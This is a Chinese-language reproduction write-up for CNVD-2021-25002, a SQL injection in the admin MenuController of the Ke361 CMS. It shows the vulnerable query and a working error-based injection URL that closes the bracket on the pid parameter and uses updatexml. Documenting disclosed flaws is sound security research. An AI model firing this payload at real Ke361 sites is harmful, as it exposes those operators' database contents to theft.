 # Ke361 MenuController.class.php 后台SQL注入漏洞 CNVD-2021-25002

## 漏洞描述

Ke361 MenuController.class.php文件 index() 函数中的pid参数存在 SQL注入漏，导致攻击者通过漏洞可以获取数据库敏感信息

## 漏洞影响

<a-checkbox checked>Ke361</a-checkbox></br>

## 环境搭建

<a-checkbox checked>https://gitee.com/jcove/ke361</a-checkbox></br>

## 漏洞复现

CMS产品页面

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1634130579841-e981591e-46f6-4aa8-bc68-6fe39d1e4e35-20220313232948253.png)

存在漏洞的文件为 `Application/Admin/Controller/MenuController.class.php`

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1634136475760-256dded1-8bef-40a2-b391-e3a84bd7fcc2.png)

Get 传参 pid 传入SQL语句

```php
SELECT `id`,`title`,`pid`,`sort`,`url`,`hide`,`tip`,`group`,`is_dev`,`status` FROM `ke_menu` WHERE (id=1)
```

使用括号闭合语句，构造SQL注入

```php
/admin.php?s=/Menu/index/pid/1)%20AND%20updatexml(1,concat(0x7e,(select%20md5(1)),0x7e),1)--+
```

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1634140622931-bdc55324-f405-4708-8973-4fef07eeac8e.png)